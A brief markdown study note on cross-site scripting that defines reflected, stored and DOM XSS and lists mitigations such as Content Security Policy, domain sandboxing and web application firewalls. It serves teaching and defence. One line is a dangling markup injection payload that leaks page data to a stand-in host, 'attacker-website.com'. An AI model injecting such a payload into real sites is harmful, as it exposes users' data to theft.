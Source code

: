 # Cross-Site Scripting (XSS)

**Impact**
Allows attacker to:
- circumvent same origin policy
- masquerade as victim
- access victim's data

## XSS Type

### Reflected XSS
When an application receives data in an HTTP request and includes the data in the immediate response in an unsafe way.

### Stored XSS
When an application receives data and includes the data in an unsafe manner in later responses.

### DOM XSS
When an application contains client-side JavaScript that processes data in an unsafe way.

## Extension of XSS attack

### Dangling Markup Injection
Technique for captureing data cross-domain in situations where a full XSS attack is not possible.
Inject payload like below to tags that contain value that is unfiltered.
```
"><img src='//attacker-website.com?
```

## Mitigation Type

### Content Security Policy
CSP is a set of directives that control which resources a web page can load, such as JavaScript, CSS, and images. When a website specifies a CSP, the browser blocks requests for assets that don't come from the specified sources.

### Browser Sandbox
Present the content of the webpage on another domain so if an XSS vulnerability exist the JavaScript will not execute on the important domain.

### Web Application Firewall
Using WAF to directly filter out potentially malicious input.
